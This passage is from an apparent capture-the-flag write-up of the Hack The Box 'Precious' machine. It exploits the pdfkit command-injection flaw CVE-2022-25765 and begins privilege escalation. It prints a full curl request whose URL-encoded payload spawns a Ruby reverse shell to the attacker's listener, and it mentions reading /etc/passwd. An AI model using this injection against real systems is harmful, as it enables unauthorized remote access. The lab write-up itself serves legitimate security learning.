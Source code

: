
We should read carefully the POC code - The CVE is relative to a command injection on data submitted to service. We could try to inject a remote connetion to our listner. 



``xabaras@helix:~/workdir/ctf/htb/precious.htb$ curl 'precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: precious.htb' -H 'Connection: keep-alive' -H 'Referer: precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.14.184%3A8899%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.184%22%2C8899%29%29%27%60'``


Thanks to [https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell](https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell) for the already done job!

![precious-exploit](assets/postimages/precious/exploiting.png)

Boom we got a shell!

## Lateral moovemnt
Now starts the second phase of the attack: privilege escalation - after having compromising the service we got a shell for a non-admin user and we can get the user flag. The goal is to reach root privileges to complete the exercise.

First of all we can try to see which users are defined in the server looking to */etc/passwd* or doing *ls* on the */home/* folder. We are operating as the *ruby* user... so let's see on our home folder.

Let's try to have a look 

{% highlight shell %}

$ cd /home/ruby
cd /home/ruby
$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:43 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 24 15:53 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
{% endhighlight %}
